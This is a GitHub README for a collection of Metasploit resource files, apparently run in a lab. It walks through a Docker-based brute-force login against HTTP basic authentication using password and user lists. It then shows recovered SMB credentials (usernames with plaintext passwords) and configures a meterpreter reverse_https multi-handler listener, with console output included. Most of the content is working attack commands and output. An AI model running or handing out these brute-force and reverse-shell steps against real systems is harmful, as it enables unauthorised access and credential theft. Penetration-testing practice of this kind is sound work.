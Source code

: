 # Metasploit-resource-files

## Prepare a password list and a dictionary list
- [pass.list](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/pass.list)
- [uer.list](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/user.list)

## Setup docker container 
```sh
$ ./setup.sh
```

## Preparing metasploit resource file(.rc)
- [Brute force login to system using http basic authentication sample (http_basic.rc)](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/http_basic.rc)

## Run the exploit
```sh
$ ./exploit.sh kali_rolling http_basic.rc 2020_test_workspace
```

## Check result
```sh
$ docker exec -it kali_rolling msfconsole

msf6 > workspace
  2020_test_workspace
* default

msf6 > workspace 2020_test_workspace
msf6 > creds
==========
host           origin        service        public         private               realm  private_type  JtR Format
----           ------        -------        ------         -------               -----  ------------  ----------
172.21.121.2   172.21.121.2  445/tcp (smb)  mike           P@ssw0rd                     Password
172.21.121.2   172.21.121.2  445/tcp (smb)  michel         root                         Password
172.21.121.2   172.21.121.2  445/tcp (smb)  Administrator  admin                        Password
```

## Use the multi handler
##### Prepare file for [multi hander](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/resouece/multihandler.rc.txt)
```
use exploit/multi/handler;
set payload windows/x64/meterpreter/reverse_https;
set LHOST 0.0.0.0;
set LPORT {{YOUR_PORT}};
run;
exit;
``` 
##### Run
```sh
$ ./handler.sh resources/multihandler.rc.txt 8499

[+] Run container(msf_handler)...
[+] Recived IP(your host) is 172.28.68.51 and port tcp/8499
...
       =[ metasploit v6.2.11-dev                          ]
+ -- --=[ 2233 exploits - 1179 auxiliary - 398 post       ]
+ -- --=[ 867 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your
module, why not try the reload command

[-] Database not connected
[-] Database not connected
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/x64/meterpreter/reverse_https
LHOST => 0.0.0.0
LPORT => 8499
[*] Started HTTPS reverse handler on https://0.0.0.0:8499

```
```sh
$ docker ps
CONTAINER ID   IMAGE                 COMMAND                  CREATED          STATUS          PORTS                    NAMES
bed4e81095da   kali/msfconsole:0.1   "msfconsole -x 'work…"   13 seconds ago   Up 12 seconds   0.0.0.0:8499->8499/tcp   msf_handler
6e0ab98754fe   kali/msfconsole:0.1   "/bin/sh -c 'service…"   8 days ago       Up 8 days                                kali_rolling
```